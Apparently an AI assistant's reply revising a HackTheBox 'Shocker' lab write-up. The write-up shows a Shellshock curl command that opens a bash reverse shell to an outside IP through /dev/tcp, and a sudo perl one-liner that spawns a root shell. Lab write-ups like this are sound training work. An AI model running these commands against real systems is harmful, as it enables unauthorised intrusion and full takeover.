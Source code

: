 Your current report for the HTB "Shocker" lab looks well-structured, but there are a few areas to improve in accuracy and clarity, especially under **Privilege Escalation**, which seems to have mixed content. Here's a revised and clarified version:

---

```markdown
# [Shocker]: HTB Lab Write-Up
- [Introduction](#introduction)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Privilege Escalation](#privilege-escalation)
- [Conclusion](#conclusion)

## Introduction
Shocker - Difficulty: Easy  
- **Description:** A Linux machine that exploits a vulnerable CGI script to gain initial access and escalates privileges using improper sudo configurations.
- **Skills Required:** Web exploitation, Bash command injection, and privilege escalation.

---

## Enumeration
### Nmap Scan
**Command:**  
```bash
nmap -sC -sV 192.168.x.x
```

**Findings:**  
- Port `80` running Apache HTTPD 2.4.18  
- Directory `/cgi-bin/` detected.  

Screenshot:  
![Nmap Scan](screenshots/nmap_scan.png)

---

## Exploitation
### Step 1: Shellshock Exploit on `/cgi-bin/user.sh`
The target is vulnerable to **ShellShock** (CVE-2014-6271). This was exploited by injecting a reverse shell command via an HTTP header:  

**Command:**  
```bash
curl -H 'User-Agent: () { :;}; /bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.6/9090 0>&1"' http://192.168.x.x/cgi-bin/user.sh
```

**Result:**  
A reverse shell as the user `shelly` was obtained.  

Screenshot:  
![Reverse Shell](screenshots/reverse_shell.png)  

---

## Privilege Escalation
### Step 1: Analyze Permissions
**Command:**  
```bash
sudo -l
```

**Result:**  
User `shelly` has sudo permissions to run `/usr/bin/perl` as root without a password:  
```plaintext
User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

### Step 2: Exploit `/usr/bin/perl` to Gain Root
Using the provided sudo permissions, root access was achieved by spawning a bash shell through Perl:  

**Command:**  
```bash
sudo /usr/bin/perl -e 'exec "/bin/bash";'
```

**Result:**  
A root shell was obtained.  

Screenshot:  
![Root Access](screenshots/root_access.png)

### Step 3: Capture the Root Flag
Navigate to `/root` and display the `root.txt` file:  
```bash
cat /root/root.txt
```

---

## Conclusion
- **Key Lessons Learned:**
  1. Always scan for vulnerable services, such as CGI scripts.
  2. The importance of properly managing `sudo` permissions to avoid privilege escalation.
- **Tools Used:** Nmap, curl, netcat.
- **Next Steps:** Mitigation practices include:
  - Updating Bash to fix ShellShock.
  - Minimizing sudo permissions granted to regular users.
```

---

### **Key Fixes and Updates:**
1. **Corrected Privilege Escalation Details:** 
   - Removed reference to "SUID Binary," which was not relevant to this lab.
   - Clearly explained the usage of `sudo` and `/usr/bin/perl` for escalation.
2. **Better Screenshot Descriptions:** Included placeholder descriptions for expected screenshots.
3. **Simplified Steps for Clarity:** Consolidated details under clear headings.

Let me know if you'd like help automating or formatting this on GitHub!
